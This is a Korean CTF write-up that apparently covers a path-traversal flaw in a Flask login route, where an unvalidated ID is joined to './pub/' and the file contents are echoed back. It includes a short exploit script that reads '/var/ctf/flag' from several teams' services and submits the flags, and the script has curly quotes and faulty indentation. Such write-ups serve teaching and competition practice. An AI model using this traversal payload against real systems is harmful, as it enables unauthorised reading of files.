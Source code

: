 # Service 3. Visualizer

## Attack Vector and Vulnerability

Service3은SLA log를 보여주기 위한 web service가 있다.
아래 코드는 해당 web service에 로그인를 처리하는 부분의 코드이다.
로그인 시 id 값을 유저입력으로 받는데, 이부분이 Attack Vector가된다.

```python
# login page
# GET  - display login page(input ID box)
# POST - user submitted github ID
@app.route('/login', methods=['GET', 'POST'])
def login():
    if flask.request.method == 'POST':
        global FINGERPRINT
        global PASSPHRASE
        githubID = flask.request.form['id']
        keypath = './pub/' + githubID

        # check github ID by finding public key
        if not os.path.exists(keypath) or os.path.isdir(keypath):
            return flask.Response('No public key')
        data = file_read(keypath)
        pubkey = gpg.import_keys(data)
        if len(pubkey.fingerprints) == 0:
            return flask.Response('%s is not public key\n%s'%(keypath,data))
        challenge = str(random.getrandbits(256))
        flask.session['id'] = githubID
        flask.session['challenge'] = challenge
        challenge = gpg.encrypt(challenge, pubkey.fingerprints[0], always_trust=True, default_key=KEYID, passphrase=PASSPHRASE)
        flask.session['encChallenge'] = str(challenge)
        return flask.redirect('/auth')

    return flask.render_template('login.html')

```
위 코드를 보면, 유저 입력으로 받은 값을 ./pub에 더한 뒤 파일을 읽는다.
이 과정에서 사용자 입력값에 대한 검사가 없으므로 `*path traversal*` 공격이
가능하다.
넣어준 path의 파일의 fingerprints가 존재하지 않을 경우, 에러로 해당파일의 내용을
웹페이지에 프린트 해주기 때문에 id에 적절히 ../를 더해 flag 파일을 읽어올 수 있다.

'''

## Exploit Script

```python
# written by blukat29

import requests
import os
import re
import time

fname = ‘/var/ctf/flag’

def ex(team):

   domain = ‘http://localhost:80%d3' % team
    s = requests.Session()
    r = s.post(domain + ‘/login’, data={‘id’:‘../../../../../../../../var/ctf/flag’})
    return r.content.split(‘key’)[1].strip()

for i in (1,2,3,4,6):
    try:
        print i
        flag = ex(i)
        os.system(‘python submit.py %d 3 %s’ % (i, flag))
    except:
        pass
```

